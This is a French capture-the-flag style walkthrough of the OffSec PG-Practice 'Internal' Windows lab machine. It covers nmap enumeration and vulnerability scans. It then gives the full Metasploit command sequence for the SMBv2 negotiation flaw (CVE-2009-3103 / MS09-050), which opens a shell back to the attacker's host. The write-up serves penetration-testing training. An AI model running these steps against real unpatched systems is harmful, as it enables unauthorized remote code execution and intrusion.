 ```yaml
---
title: PG-Practice Internal 
meta_title: ""
description: La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice. Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue. Elle ne requiert pas d'élévation de privilèges.
date: 2024-04-04T05:00:00Z
image: /images/offsec-banner.jpg
categories:
  - Réaliste
  - Facile
author: Emma.exe
tags:
  - realiste
  - pg-practice
  - offsec
draft: false
---
```


# Introduction

La box Internal est une box proposée par l'Offsec dans sa catégorie PG-Practice.
Il s'agit d'une box Windows Easy exploitant une vulnérabilité SMB peu connue.
Elle ne requiert pas d'élévation de privilèges.
# Enumération

On commence toujours par énumérer la machine avec nmap.
J'utilise les options suivantes : 
- `-p-` pour énumérer tous les ports
- `-sV` pour obtenir les versions des services

```sh
nmap -p- 192.168.242.40 -sV            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-02 09:26 EDT
Nmap scan report for 192.168.242.40
Host is up (0.016s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.70 seconds
```

Il ny a rien de particulier d'ouvert, on peut tester si la vulnérabilité MS10 17 (eternal blue) est présente sur la machine : 
```sh
nmap -p445 --script smb-vuln-ms17-010 192.168.242.40
```

C'est effectivement vulnérable !
Cependant, il est important d'énumérer la machine entièrement avant de passer à la phase d'exploitation.

Nous allons donc effectuer un autre scan de vulnérabilité plus généraliste avec nmap : 
```sh
nmap --script vuln 192.168.242.40 
Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_smb-vuln-ms10-054: false

```

On voit que la machine est aussi vulnérable à la faille "SMBv2 Negotiation Vulnerability" c'est-à-dire la CVE-2009-3103. Il est plus probable que ce soit cette vulnérabilité-là que l'auteur de la box veut nous faire exploiter.
En effet, elle est très intéressante puisqu'elle va permettre d'effectuer une RCE (Remote Execution Code) et potentiellement nous permettre d'obtenir un shell interactif. 
# Recherche d'exploit

Afin de trouver un exploit, je commence par me renseigner sur la vulnérabilité.
Premièrement, les vulnérabilités Windows sont souvent appelés par l'indicatif Microsoft.
Dans notre cas, on voit qu'elle est aussi appelé "MS09-050".
La vulnérabilité est due à une mauvaise implémentation du protocole SMBv2 dans certaines versions de Windows

Je fais une recherche sur le site https://exploit-db.com en utilisant MS09-050 et je constate qu'il existe plusieurs exploits.

exploit-db nous permet de voir si l'exploit a été vérifié ou non. Dans la mesure du possible, on privilégie les exploits qui le sont.

> Si vous décidez de choisir un exploit non vérifié, il est important de regarder ce que fait réellement l'exploit. 

Ici il n'y en a qu'un seul vérifié, disponible ici : 
https://www.exploit-db.com/exploits/16363

Il s'agit d'un module Metasploit.

# Exploitation

Nous lançons donc Metasploit en sudo :
```sh
sudo msfconsole
```

On recherche l'exploit en recherchant son ID : 
```sh
search exploit ms09_050_smb2_negotiate_func_index
```

Il devrait normalement apparaitre dans la recherche. 
{{< image src="images/PG-Internal-msfconsole-search.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}
On récupère son chemin et on tape la commande :

```sh
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index  
```

On affiche les options que nécessite l'exploit pour fonctionner en tapant la commande : 
```sh
show options
```

{{< image src="images/PG-Internal-msfconsole-options.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

On voit deux options requises qui ne sont automatiquement renseignée ou qu'il faut modifier : l'hôte distant (Remote Host) et l'hôte qui va réceptionner le shell (Listen Host).

On configure les options comme suit : 
```sh
set RHOSTS <ip-cible>
set LHOST <ip-local>
```

> Pour l'IP local, il faut bien choisir l'IP de l'interface qui communique avec le réseau Offsec (généralement celle de tun0)

On exécute l'exploit en tapant la commande : 
```sh
run
```

Au bout de quelques instants, on obtient un shell et on récupère le flag qui se trouve toujours sur le bureau Administrateur.
